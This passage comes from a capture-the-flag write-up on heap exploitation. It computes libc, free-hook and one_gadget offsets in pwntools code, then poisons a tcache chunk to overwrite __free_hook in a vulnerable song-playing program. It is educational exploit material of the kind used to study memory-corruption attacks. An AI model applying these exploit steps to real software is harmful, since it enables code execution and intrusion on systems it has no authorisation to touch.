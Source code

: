 When we installed and ran this tool against our libc, we found the following possible gadget location offsets:

![](https://i.imgur.com/G2RdXks.png)

We don't know how to make constraints meet, so we pick the one that has the least amount of constraints, and hope it's good enough to win. (If not, we can always change the offset to another gadget!)

Putting the address calculations together, we can now add them to our exploit:

```python=
atoi_offset = 0x40680
onegad_offset = 0x4f322
free_hook_offset = 0x3ed8e8

libc_base = atoi_libc - atoi_offset
free_hook_libc = libc_base + free_hook_offset
one_gadget_libc = libc_base + onegad_offset

log.success("libc base: " + hex(libc_base))
log.success("Free hook location: " + hex(free_hook_libc))
log.success("One gadget location: " + hex(one_gadget_libc))
```

We now know where to write, what to write, and we have the ability to overlap and poison the tcache bins a second time. Let's finish this exploit up!

For a sanity check, let's add an `sh.interactive()` after the leak to see how the bin structs look like:

![](https://i.imgur.com/z7GQGTi.png)

Our 0x20 and 0x310 tcache bins are toast at this point - trying to allocate anything in that memory size range will attempt to allocate memory from the addresses 0x3 and 0x6 respectively, which is invalid. However, we still have the 0x3c0 tcache bin we can use, which is the one we were able to get chunks to overlap each other on. 

Recall also that when we clobbered the .bss section, we set many of the song's file descriptors to 0. This means that when we play these clobbered songs, we can specify how much to allocate and what input to write in any of them!

Again, first we need to find the offset. We can do that by adding the following to our exploit:

```python
play_overflow("4", "946", cyclic(100))
```

The reason why I'm specifying to allocate 946 bytes is that that's the size of the freed song # 23, which was `Animal/animal.txt`. which belongs in the 0x3c0 tcache chunk range. Let's see what the heap bin layout looks like after this: 

![](https://i.imgur.com/HI6tfKE.png)

Looks like the offset is 32! We can then modify that allocation to be the following:

```python=
play_overflow("4", "946", "A"*32 + p64(free_hook_libc))
```
